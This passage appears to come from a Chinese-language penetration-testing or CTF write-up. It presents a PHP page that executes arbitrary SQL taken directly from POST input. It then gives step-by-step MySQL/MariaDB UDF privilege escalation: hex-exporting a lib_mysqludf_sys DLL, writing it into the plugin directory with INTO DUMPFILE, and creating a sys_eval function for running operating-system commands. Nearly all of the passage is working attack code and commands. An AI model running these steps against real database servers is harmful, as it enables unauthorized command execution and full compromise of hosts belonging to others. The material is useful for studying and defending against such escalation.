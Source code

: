 ```php
<?php

if (isset($_POST["sql"])) {
  $result = $conn->query($_POST["sql"]);
  // var_dump($result);
  if ($result->num_rows > 0) {
    echo "<table>";
    while ($row = $result->fetch_assoc()) {
      echo "<tr>";
      foreach ($row as $key => $val) {
        echo "<td>$key: $val</td>";
      }
      echo "</tr>";
    }
    echo "</table>";
  } else {
    if ($result == false) {
      echo "error: ". mysqli_error($conn);
    } else
      echo "Query executed successfully.";
  }

}
// 关闭连接
$conn->close();

?>
```

然后连接数据库进行udf提权

查看安全权限、插件目录

![image-20240401153729339](https://gitee.com/fpointzero/imgforit/raw/master/img/image-20240401153729339.png)

![image-20240401153705220](https://gitee.com/fpointzero/imgforit/raw/master/img/image-20240401153705220.png)

16进制导出方法（windows）：

```
select hex(load_file('C:\\lib_mysqludf_sys_32.dll')) into dumpfile 'C:\\lib_mysqludf_sys_32.txt';
```

上传到对应文件中：

```
SELECT 0x(SO或者dll文件16进制编码) into DUMPFILE "/usr/lib/mariadb/plugin/udf.so"
```

如果一次不行要记得先导入表中分两次导入即可

创建函数：

```
create function sys_eval returns string soname 'udf.so';
```

提权以后：

![image-20240401154206341](https://gitee.com/fpointzero/imgforit/raw/master/img/image-20240401154206341.png)

![image-20240401154232613](https://gitee.com/fpointzero/imgforit/raw/master/img/image-20240401154232613.png)